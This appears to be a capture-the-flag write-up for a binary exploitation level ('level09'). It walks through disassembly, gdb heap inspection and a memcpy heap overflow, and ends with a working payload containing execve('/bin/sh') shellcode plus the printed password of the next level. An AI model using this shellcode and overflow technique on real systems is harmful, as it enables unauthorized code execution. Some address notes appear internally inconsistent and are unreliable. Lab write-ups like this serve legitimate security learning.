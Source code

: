 # level09

## disassemble

```shell
objdump -dC -M intel level9 > source.txt
# objdump --disassemble --demangle --disassembler-options intel level9 > source.txt
```

## find_a_vulnerability

### get_first_address_of_the_heap

```shell
gdb level9

# 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
# 804861c:	89 c3                	mov    ebx,eax
(gdb) break *0x804861c
(gdb) run BBBB
(gdb) info registers
eax            0x804a008	134520840
```

The fisrst address : `0x804a008`

### memcpy_to_edx

#### call_edx

```
080485f4 <main>:
 [...]
 8048693:       ff d2                   call   edx
 [...]
```

#### memcpy's_vulnerability

* write on heap

```shell
gdb level9
# 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
# 8048738:	c9                   	leave
(gdb) break *0x8048738
(gdb) run BBBB
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

* segmentation fault

```bash
python2.7 -c 'print("BBBB" * 27)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)
[Inferior 1 (process 6537) exited with code 0110]
```

```bash
python2.7 -c 'print("BBBB" * 28)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x42424242	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

```
First address       : `0x804a008 + 4` --> `0x804a00c` --> "\x0c\xa0\x04\x08"
Second address      : `0x804a008 + 8` --> `0x804a010` --> "\x50\x88\x04\x08"
Segfault's address	: `0x804a078`
```


## exploit

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
python2.7 -c 'print( "" \
        + "\x10\xa0\x04\x08" \
        "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  \
        + ("...." * 20) \
        + "\x0c\xa0\x04\x08" \
        )'\
        > /tmp/exploit.txt
./level9 $(cat /tmp/exploit.txt)
```

## flag

```shell
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
